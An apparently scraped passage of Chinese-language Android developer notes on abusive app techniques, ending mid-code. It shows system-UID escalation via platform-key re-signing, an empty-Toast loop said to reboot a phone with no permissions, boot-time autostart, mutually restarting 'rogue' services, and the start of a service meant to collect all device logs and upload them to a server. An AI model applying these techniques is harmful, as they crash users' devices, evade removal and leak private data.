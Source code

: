 // 提升应用为系统程序（需要签名与系统签名一致，用到signapk.jar工具）
<manifest ...
    android:sharedUserId="android.uid.system"
    
// java -jar signapk.jar platform.x509.pem platform.pk8 原.apk 后.apk
</pre>

<pre class="brush: java">
// 0权限重启手机（JNI版：Toast底层就是使用JNI）
while(true){
    Toast toast = new Toast(this);
    // 不显示Toast的内容
    toast.setView(new View(this)); 
    toast.show();
}
</pre>

* *0权限开机启动* （Android系统漏洞）
<hr />

<pre class="brush: xml">

<receiver android:name=".BootCompleteReceiver">
    <intent-filter>
        <action android:name="android.intent.action.BOOT_COMPLETED" />
    </intent-filter>
</receiver>



</pre>

<pre class="brush: java">
public class BootCompleteReceiver extends BroadcastReceiver {
    public void onReceive(Context context, Intent intent) {
        
    }
}
</pre>

* *流氓服务* （不死的服务）
<hr />

<pre>
原理：在服务1被结束时启动服务2，在服务2结束时启动服务1，如此交替。
</pre>

* *隐私* （Logcat大法：adb logcat -b xxx）
<hr />
** Main     /dev/log/main
** Events   /dev/log/events
** Radio    /dev/log/radio
** System   /dev/log/system

* *Logcat实操* 目的：通过服务获取手机的所有日志并上传到服务器
<hr />

<pre class="brush: java">
public class ReadLogService extends Service {
